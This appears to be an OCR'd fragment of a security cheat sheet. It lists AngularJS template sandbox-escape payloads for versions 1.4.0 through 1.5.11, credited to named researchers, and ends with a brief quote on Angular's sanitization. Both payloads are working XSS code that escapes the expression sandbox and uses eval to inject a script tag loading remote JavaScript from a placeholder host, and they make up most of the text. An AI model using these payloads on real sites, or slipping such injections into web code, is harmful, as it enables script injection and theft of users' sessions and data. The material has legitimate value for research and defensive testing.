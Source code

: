   
---
1.4.0 - 1.5.8 by Gareth Heyes (PortSwigger)

```javascript

{{

a=toString().constructor.prototype;a.charAt=a.trim;

$eval('a,eval(`var _=document.createElement(\'script\');

_.src=\'//localhost/m\';document.body.appendChild(_);`),a')

}}

```

  
---
1.5.9 - 1.5.11 by Jan Horn (Cure53, now works at Google Project Zero)

```javascript

{{

c=''.sub.call;b=''.sub.bind;a=''.sub.apply;c.$apply=$apply;

c.$eval=b;op=$root.$$phase;

$root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;

C=c.$apply(c);$root.$$phase=op;$root.$digest=od;

B=C(b,c,b);$evalAsync("astNode=pop();astNode.type='UnaryExpression';astNode.operator='(window.X?void0:(window.X=true,eval(`var _=document.createElement(\\'script\\');_.src=\\'//localhost/m\\';document.body.appendChild(_);`)))+';astNode.argument={type:'Identifier',name:'foo'};");

m1=B($$asyncQueue.pop().expression,null,$root);

m2=B(C,null,m1);[].push.apply=m2;a=''.sub;

$eval('a(b.c)');[].push.apply=a;

}}

```

## Automatic Sanitization

> To systematically block XSS bugs, Angular treats all values as untrusted by default. When a value is inserted into the DOM from a template, via property, attribute, style, class binding, or interpolation, Angular sanitizes and escapes untrusted values.
